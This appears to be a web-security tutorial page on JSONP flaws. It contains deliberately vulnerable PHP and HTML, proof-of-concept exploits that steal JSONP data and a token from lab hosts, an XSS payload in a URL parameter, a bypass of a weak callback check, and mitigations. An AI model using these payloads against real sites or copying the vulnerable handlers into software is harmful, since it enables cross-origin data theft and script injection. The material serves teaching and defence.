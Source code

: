 # JSONP

Code Vulnerable

```html
<?php
session_start();

if($_SESSION['islogin'] != 1){
    header("Location: login.php");
    die();
}

?>
<html>
  <head>
    <title>Books Library</title>
    <link rel="stylesheet" type="text/css" href="../style/css.css">
  </head>
  <body id="bodyId">
    <div class="header">
      <a href="index.php" class="logo">Books Library</a>
      <div class="header-right">
        <a href="index.php">Home</a>
        <a class="active" href="profile.php">Profile</a>
        <a href="login.php">Login</a>
      </div>
    </div>
    <div id=output>
    	
    </div>
    <div class="container">
    	**<script type="text/javascript">
    		function userInfo(data){
    			var name = '<center><span>User Name: '+data["username"]+'</span><br>',
    				email = '<span>Email: '+data['email']+'</span><br>',
    				fname = '<span>Full Name: '+data['Full Name']+'</span></center>';
    			document.getElementById('output').innerHTML = name+email+fname;
    		}
    	</script>**
    	<script src="<http://vuln.labs/labs/jsonp/info.php?callback=userInfo>"></script>
    </div>
  </body>
</html>
```

POC

```jsx
**<script>
	function userInfo(data){
		document.write(JSON.stringify(data))
	}
</script>
<script src='<http://localhost/labs/jsonp/info.php?callback=userInfo>'></script>**
```

Mitigation

Use CORS Instead of JSONP

Strict Callback Validation

```php
<?php
header('Content-Type: application/javascript');

**$allowed_callbacks = ['safeFunction'];**
$callback = $_GET['callback'];

if (in_array($callback, $allowed_callbacks)) {
    $data = [
        "name" => "John Doe",
        "email" => "john@example.com"
    ];

    echo $callback . '(' . json_encode($data) . ');';
} else {
    echo 'console.error("Invalid callback function.");';
}

```

JSONP Content-Type Validation

More Complex

#### Scenario 1: Exploiting with Malicious Parameters

```jsx
<?php
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$name = isset($_GET['name']) ? $_GET['name'] : 'John Doe';
$email = isset($_GET['email']) ? $_GET['email'] : 'john@example.com';

$data = [
    "name" => $name,
    "email" => $email
];

// Vulnerable JSONP response with user input
echo $callback . '(' . json_encode($data) . ');';

```

exploit

```jsx
<http://localhost/vulnerable_server.php?callback=stealData&name=><script>alert('XSS')</script>&email=attacker@example.com

```

get XSS and JSONP data

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

#### Scenario 2: Bypassing Weak Validation

```jsx
<?php
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$allowed_callbacks = ['safeFunction'];

if (strpos($callback, 'safe') === 0) {
    $data = [
        "name" => "John Doe",
        "email" => "john@example.com"
    ];

    echo $callback . '(' . json_encode($data) . ');';
} else {
    echo 'console.error("Invalid callback function.");';
}
```

#### Exploit

```jsx
<http://vulnerable.com/vulnerable_server.php?callback=safeStealData>
```

#### Scenario 4: JSONP Hijacking via CORS Misconfiguration

#### CORS-Enabled

```php
<?php
header('Access-Control-Allow-Origin: *'); // Wide open CORS policy
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$data = [
    "token" => "58rec269qs4a9w8ewd2a6ghy6", // Sensitive data
];

echo $callback . '(' . json_encode($data) . ');';

```

Exploit

```javascript
<script>
function safeStealData(data) {
    console.log("Stolen token:", data.token);
    // Further actions like sending the token to the attacker's server
}
</script>
<script src="<http://localhost/labs/jsonp/plus/vuln_server3.php?callback=safeStealData>"></script>
```

Scenario 5: Advanced URL Manipulation

```php
<?php
header('Content-Type: application/javascript');

$callback = **urldecode**($_GET['callback']);
$data = [
    "name" => "John Doe",
    "email" => "john@example.com"
];

echo $callback . '(' . json_encode($data) . ');';
```

